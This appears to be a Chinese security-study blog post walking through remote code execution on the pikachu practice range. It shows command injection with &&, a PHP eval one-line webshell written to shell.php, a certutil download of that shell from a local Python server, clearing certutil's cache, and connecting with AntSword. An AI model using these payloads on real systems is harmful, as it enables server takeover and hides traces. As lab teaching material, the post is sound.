 ```yaml
---
title: 信息安全学习-RCE
tags:
  - 信息安全
readmore: true
abbrlink: db914d55
date: 2023-02-09 11:18:31
---
```


### 简介

RCE漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。因为需求设计,后台有时候也会把用户的输入作为代码的一部分进行执行，也就造成了远程代码执行漏洞。

<!--more-->

### 环境搭建

环境使用 pikachu 的靶场，下载地址：https://github.com/zhuifengshaonianhanlu/pikachu

安装方式可自行百度，推荐使用 phpstudy 创建网站，方便快捷。

### ping 命令漏洞

打开 pikachu 靶场中的 RCE -> exec "ping"，在表单中输入 127.0.0.1 可以看到回显，说明执行了 ping 127.0.0.1 的命令。

#### 测试漏洞

紧接着使用 && 连接符在 127.0.0.1 的后面连接上 whoami 命令

```bash
127.0.0.1 && whoami
# whoami 作用是查看操作系统的用户名
# && 连接符，当前面的命令执行后，后面的命令才会执行
```

可以看到两个命令全都执行了，说明这个位置有漏洞，我们可以加以利用。

#### 创建一句话木马(直接写入文件)

输入新的命令：

```bash
127.0.0.1 && echo "<?=eval($_POST['cmd']);?>" > shell.php
# echo 输出字符串
# $_POST['cmd'] 接受来自 POST 请求且参数名为 cmd 的值
# eval() 执行接收到的字符串
# > 将内容输入到指定的文件中
```

此时就在该页面的位置创建了一个 shell.php 文件并输入对应内容。

#### 创建一句话木马(文件下载方式)

除了使用 echo 这种直接写入的办法，还可以使用 certutil 命令从远处下载木马文件。

##### 启动本地服务器

这种方法需要拥有一个服务器，从服务器上下载文件；练习时我们使用 Python 来创建一个本地服务器作为演示。

在安装好 Python 后，创建一个文件夹并创建 shell.php 文件，写入上文的一句话木马。

**目录不要包含中文**

打开命令行输入命令：

```bash
python -m http.server 8080
# -m 将 python 中的模块当作脚本运行
# 8080 服务启动的端口
```

服务器启动成功~

##### 访问本地服务器

输入命令查看自己电脑的 ip：

```bash
# windows
ipconfig
# linux
iconfig
```

**注意 Windows 和 Linux 查看 ip 的命令不同**

在浏览器输入：

```bash
http://192.168.31.195:8080/
```

成功访问后可以看到一个 shell.php 文件。

##### 下载文件

在靶场的表单中输入：

```bash
127.0.0.1 && certutil -urlcache -f -split http://192.168.31.195:8080/shell.php
# -urlcache 显示或删除URL缓存条目
# -f 覆盖的现有文件，后面要跟着下载文件的 url
# -split 保存到文件
# 杀毒软件可能会报毒，因为是自己的命令，我们就允许它执行
```

看到页面有其他的显示，说明文件已经下载成功~

##### 删除下载缓存

certuril 命令有一个弊端就是下载文件后会保留缓存。

输入命令查看缓存：

```bash
certutil -urlcache *
# 查看所有缓存
cerutil -urlcache 192
# 查看包含 192 字符串的缓存
```

输入命令删除缓存：

```bash
certutil -urlcache * delete
# 删除所有缓存
certuil -urlcache 192 delete
# 删除包含 192 字符串的缓存
```

#### 蚁剑连接后台

成功上传一句话木马后，使用蚁剑进行连接。

蚁剑源码下载地址：https://github.com/AntSwordProject/antSword

蚁剑启动器下载地址：https://github.com/AntSwordProject/AntSword-Loader

将蚁剑源码解压后，打开启动器目录选择刚刚的源码文件，稍等片刻会成功启动。

也可以直接使用启动器下载；若遇到解压失败的情况，给予源码的文件夹所有权限即可。 

启动后，在蚁剑空白处右键，选择添加数据；

![](https://pic.mewhz.com/rce/1.png)

在基础配置中的 url 地址，输入靶场中木马所在的 url；

连接密码输入 cmd，即刚刚木马中 $_POST 的参数；

![](https://pic.mewhz.com/rce/2.png)

单击测试连接，显示连接成功后，单击添加；

右键刚刚添加的记录，选择文件管理就可以对木马所在的服务器进行文件操作；

![](https://pic.mewhz.com/rce/3.png)

![](https://pic.mewhz.com/rce/4.png)



仅供学习交流使用~
